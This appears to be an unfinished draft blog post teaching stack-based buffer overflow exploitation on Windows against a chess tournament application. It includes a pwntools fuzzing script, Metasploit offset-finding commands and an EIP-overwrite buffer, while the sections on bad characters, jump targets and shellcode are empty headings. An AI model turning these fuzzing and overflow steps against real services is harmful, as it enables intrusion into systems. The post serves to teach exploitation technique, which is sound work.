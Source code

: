 ```yaml
---
title: 'Windows Binary Exploitation with Space Constraints'
date: 2025-01-28T17:48:35+01:00

footer: 'Jakob Friedl © 2025' 

categories: ['exploitation']
blog_post: true
draft: true
---
```


A buffer overflow is a flaw that allows an attacker to write more data to a buffer located on the stack than it can hold, which introduces security vulnerabilities due to the ability to overwrite adjacent memory addresses. In this post, I showcase the exploitation of a stack-based buffer overflow on Windows, where constraints of the target program required me to tweak my payload buffer to achieve code execution.<!--more-->

## Buffer Overflow Theory

TBD

## Exploitation

The program we are targeting in this example is used to manage chess tournaments. The main functionality includes the ability to create new chess players, to modify existing players and to create and delete chess tournaments. In order to keep this blog post concise, let's assume that we have identified that the feature to change the last name of an existing player is vulnerable to a buffer overflow attack. In the following sections we will look at how we can verify this vulnerability using a custom fuzzing-tool as well as how to build an exploit that triggers our malicious code.  

### Fuzzing

Fuzzing is a technique that utilizes automation to identify vulnerabilities by sending large, unexpected inputs to an application. As an example, the script below sends an increasingly long buffer consisting of 'A' characters to the change last name functionality of the application. In order to reach this point, the fuzzer first needs to go over the 'V1' and 'N' commands. The buffer is incremented by 10 characters every iteration in order to accurately identify the length that crashes the application. 

```python {lineNos=table}
#!/bin/python

from pwn import *

def main():
    # Connection
    target = b"192.168.168.142"
    port = 4444
    conn = remote(target,port)
    data = conn.recv()

    # Fuzzing-Configuration 
    fuzz = b"A"

    for i in range(0, 5000, 10): 
    
        # Sending request to change player data
        log.info(b"Sending: V1") 
        conn.send(b"V1\r\n")
        conn.recv()
        
        # Changing last name
        log.info(b"Sending: N") 
        conn.send(b"N\r\n") 
        conn.recvuntil(b"neuer Nachname:")

        log.info(f"Payload: %s * %d" % (fuzz, i)) 
        conn.send(fuzz * i + b"\r\n") 
        conn.recvuntil(b">")

        # Checking updated name 
        log.info(b"Sending: r")
        conn.send(b"r\r\n")
        conn.recvuntil(b">")
        log.info(b"Sending: L")
        conn.send(b"L\r\n")
        data = conn.recvline()
        log.info(b"Response: %s" % data)

if __name__ == "__main__":
    main()
```

On the Windows target system, the chess tournament application is started on port 4444 in x64dbg or any other debugger of choice. The screenshot below presents the final iterations of the fuzzer which shows that a buffer length of around 640 characters/bytes crashes the application. 

![Fuzzer crashing the application](/img/windows-bof/1.png)

We verify the vulnerability via the access violation exception that is triggered and shown in x64dbg. Looking closer, we can actually see that the instruction pointer (EIP) has been fully overwritten with the value *41414141*. Reader familiar with binary exploitation will recognize that sequence as the hexadecimal representation of *AAAA*. Being able to overwrite the EIP is the first step to a successful buffer overflow. 

![Access violation and EIP overwrite](/img/windows-bof/2.png)

### Identifying the offset

In the previous section we found that we are capable of overwriting the instruction pointer with our payload buffer. Since this register is used to direct the execution flow of the program, we need to figure out the exact offset at which the EIP is overwritten in order to make it eventually point to the malicious shellcode. To identify the offset, Metasploit's *pattern_create.rb* and *pattern_offset.rb* are used. Pattern_create.rb creates a cyclic pattern that allows us to identify the offset with the help of pattern_offset.rb.

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 640 
```

![Cyclic Pattern generated](/img/windows-bof/3.png)

When this pattern is sent to the application instead of the 'A'-buffer, the value of the EIP at the crash is *32764131*, which was discovered as previously with the debugger. Passing this into the pattern_offset.rb tool, the offset of the EIP is calculated to be at 635 bytes.

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 640 -q 32764131
```

![Offset calculated](/img/windows-bof/4.png)

To showcase that this offset actually enables us to control the value of the EIP, we create a simple payload buffer that replaces the EIP address with *BBBB* or *42424242* in hex and send it to the application. With the EIP controlled, the next step is to identify all possible bad characters that could prevent our exploit from working as expected. 

```python {lineNos=table}
offset = 635  # (EIP)
buffer = b"A" * offset + b"B" * 4 + b"D" * (640-offset-4)     
```

![Controlled EIP overwrite](/img/windows-bof/5.png)

### Identifying bad characters



### Where do we jump to?

### Popping calc.exe!

## Conclusion